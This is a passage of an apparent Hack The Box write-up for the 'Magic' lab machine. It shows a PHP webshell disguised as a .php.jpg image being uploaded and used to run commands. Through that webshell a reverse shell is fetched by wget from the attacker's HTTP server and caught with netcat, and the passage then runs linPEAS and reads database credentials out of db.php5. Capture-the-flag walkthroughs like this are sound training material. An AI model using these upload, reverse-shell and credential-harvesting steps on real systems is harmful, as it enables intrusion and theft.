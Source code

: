   root@nidus:~/Pictures# mv skull.jpg skull.php.jpg

   Upload the picture and we can now browse to it: http://magic.htb/images/uploads/skull.php.jpg
   Enumerate the box through the URL by executing the embedded code: http://magic.htb/images/uploads/skull.php.jpg?cmd=whoami
    www-data


4. To get a more stable shell we can upload a reverse php-shell through the webshell.

   Start a listener:
    root@nidus:~/Pictures# nc -lvnp 4488
      listening on [any] 4488 ...

   Setup your HTTP-server:
    root@nidus:/srv/pub-share# python3 -m http.server 8081
      Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

   Download the reverse-shell:
    http://magic.htb/images/uploads/skull.php.jpg?cmd=wget%2010.10.14.11:8081/rev.php

   Execute the reverse shell and gain a connection:
    http://magic.htb/images/uploads/rev.php

      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 45530
      Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
       12:05:55 up  2:41,  0 users,  load average: 0.00, 0.00, 0.00
      USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      /bin/sh: 0: can't access tty; job control turned off

    $ id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)

    UPGRADE THE SHELL

5. Do standard enumeration with linPEAs.sh and we find a few interesting things.

   MySQL running locally on the box and the password used:
    tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -

    [+] Finding 'pwd' or 'passw' variables inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
      ..
      /var/www/Magic/db.php5:    private static $dbUserPassword = 'iamkingtheseus';

  Further investigation of the db-file we find dbName and dbUsername:
    www-data@ubuntu:/tmp$ cat /var/www/Magic/db.php5
    <?php
    class Database
    {
        private static $dbName = 'Magic' ;
        private static $dbHost = 'localhost' ;
        private static $dbUsername = 'theseus';
        private static $dbUserPassword = 'iamkingtheseus';
